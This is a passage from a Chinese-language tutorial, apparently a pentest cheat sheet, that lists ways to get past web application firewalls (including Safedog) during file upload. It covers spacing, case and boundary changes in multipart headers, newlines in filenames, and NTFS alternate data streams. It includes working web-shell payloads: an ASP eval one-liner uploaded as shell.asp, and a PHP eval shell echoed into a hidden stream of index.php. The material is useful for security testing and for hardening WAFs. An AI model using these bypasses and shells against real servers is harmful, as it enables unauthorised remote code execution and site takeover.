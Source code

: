 ```
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
```

8.删除Content-Disposition字段里的空格

```
Content-Disposition: 空格form-data; name="image"; 
```

增加一个空格导致安全狗被绕过案列：

```
Content-Type: multipart/form-data; boundary=—————————4714631421141173021852555099
```

尝试在boundary后面加个空格或者其他可被正常处理的字符：

```
boundary=空格—————————4714631421141173021852555099
```

9.修改Content-Disposition字段值的大小写

```
Content-Disposition: form-data; nAme="image";
```

10.Boundary边界不一致
每次文件上传时的Boundary边界都是一致的：

```
Content-Type: multipart/form-data; boundary=---------------------------4714631421141173021852555099后面随便添加一些值
Content-Length: 253
```

```
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.asp"
Content-Type: application/octet-stream
<%eval request("a")%>
-----------------------------4714631421141173021852555099--
```

但如果容器在处理的过程中并没有严格要求一致的话可能会导致一个问题，两段Boundary不一致使得waf认为这段数据是无意义的，可是容器并没有那么严谨，会导致上传成功。

11.文件名处回车

```
Content-Disposition: form-data; name="file1"; filename=

"shell.asp"
```

12.利用NTFS ADS特性
ADS是NTFS磁盘格式的一个特性，用于NTFS交换数据流。在上传文件时，如果waf对请求正文的filename匹配不当的话可能会导致绕过。

在webshell中的使用，在服务器上echo一个数据流文件到正常网页上。比如

```
echo ^<?php eval($_POST[cmd])?^ >> index.php:hidden.txt  
```
